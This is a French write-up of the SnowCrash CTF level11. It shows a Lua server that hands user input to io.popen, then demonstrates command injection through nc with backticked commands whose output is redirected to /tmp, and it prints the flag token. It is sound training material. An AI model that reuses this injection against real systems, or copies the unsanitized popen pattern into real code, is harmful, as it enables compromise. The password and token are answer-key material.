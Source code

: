 On trouve dans le dossier home un file **level11.lua** qui contient:

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
	prog = io.popen("echo "..pass.." | sha1sum", "r")
	data = prog:read("*all")
	prog:close()
	data = string.sub(data, 1, 40)
	return data
end

while 1 do
	local client = server:accept()
	client:send("Password: ")
	client:settimeout(60)
	local l, err = client:receive()
	if not err then
		print("trying " .. l)
		local h = hash(l)
		if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
			client:send("Erf nope..\n");
		else
			client:send("Gz you dumb*\n")
		end
	end
	client:close()
end
```

On abserve que le programme est lancé sur **127.0.0.1:5151**, donc pour pouvoir interagir avec on utilise:
<pre><code>> nc 127.0.0.1 5151
Password:
Erf nope..</code></pre>

En regardant le programme de plus pres, on se rend compte qu'une injection est possible <code>io.popen("echo "..pass.." | sha1sum", "r")</code> car il execute la variable pass, qui est notre input.
De plus la deuxieme partie du code ne sert a rien car même un a message peut importe le mot de passe
> Le bon mot de passe est: **NotSoEasy** (rajouter un -n devant pour que cela fonctionne)

On essaye :
<pre><code>> nc 127.0.0.1 5151
Password: `whoami > /tmp/test`
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
flag11
</code></pre>
> On stocke le resultat dans un fichier car sinon il n'y a pas d'affichage car il ne s'agit pas d'un <code>client:send()</code>

<pre><code>> nc 127.0.0.1 5151
Password: `getflag > /tmp/test`
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
</code></pre>

<pre>
<code>> getflag</code>
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
</pre>